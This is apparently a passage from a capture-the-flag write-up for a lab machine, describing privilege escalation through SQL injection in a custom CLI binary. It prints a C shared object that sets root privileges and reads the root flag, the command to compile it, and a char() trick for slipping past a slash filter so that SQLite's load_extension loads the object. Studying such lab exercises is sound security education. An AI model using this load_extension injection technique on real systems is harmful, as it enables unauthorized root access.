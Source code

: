 ```console
1. Show users list and info
2. Show groups list
3. Check server health and status 
4. Show server requests log (last 1000 request)
5. activate user account                    
6. Exit                          
Select option:                                                                                                  
exiting...                 
please Select a valid option...
PATH                   
[!]Caution this tool still in the development phase...please report any issue to the development team[!]                                                                                             
Enter Username:              
Enter password for                   
moriarty                  
findMe[...]
```

## Escalate

The binary offers several options which trigger various commands or SQL queries. Only one of them allows user input, the `activate user account` option. This takes a username as input and passes it to this SQL statement:

```text
UPDATE accounts_customuser SET is_active=1 WHERE username="%s";
```

This is an SQL injection opportunity. This database has `load_extension` enabled, which we can exploit via a custom shared object:

```console
tom@drive:~$ cat x.c
#include <stdlib.h>
#include <unistd.h>

void _init() {
    setuid(0);
    setgid(0);
    system("/usr/bin/cat /root/root.txt");
}

$ gcc -shared x.c -o x.so -nostartfiles -fPIC
```

Now I can trigger the SQLi. I have to obfuscate the path ("`./x`") using `char(46,47,120)` because `/` characters are filtered out. This reveals the `root` flag:

```console
tom@drive:~$ ./doodleGrive-cli 
[!]Caution this tool still in the development phase...please report any issue to the development team[!]
Enter Username:
moriarty
Enter password for moriarty:
findMe[...]
Welcome...!

doodleGrive cli beta-2.2: 
1. Show users list and info
2. Show groups list
3. Check server health and status
4. Show server requests log (last 1000 request)
5. activate user account
6. Exit
```